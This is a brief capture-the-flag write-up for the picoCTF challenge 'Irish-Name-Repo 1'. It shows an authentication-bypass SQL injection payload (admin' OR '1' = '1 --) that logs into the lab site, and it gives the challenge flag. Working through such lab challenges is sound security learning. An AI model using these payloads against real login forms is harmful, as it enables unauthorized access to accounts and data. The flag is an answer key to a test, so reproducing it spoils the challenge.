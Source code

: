 # Irish-Name-Repo 1 - Points: 300
<b>Description : </b>There is a website running at https://2019shell1.picoctf.com/problem/47253/ (link) or http://2019shell1.picoctf.com:47253. Do you think you can log us in? Try to see if you can login!<br>
<b>Hints : </b>There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database? Try to think about how does the website verify your login?
# Solved
Login URL : https://2019shell1.picoctf.com/problem/47253/login.html<br>
This is seems like <b>SQL Injection</b>, let me try using this query <b>' OR '1' = '1 --</b>
```
Login failed.
```
What ? Did i do something wrong ??, So i adding <b>admin</b> before quote, this what i got
```
admin' OR '1' = '1 --

Logged in!
Your flag is: picoCTF{s0m3_SQL_93e76603}
```
Ahh i see, im must pay attention with username ^_^<br>
Flag : <b>picoCTF{s0m3_SQL_93e76603}</b>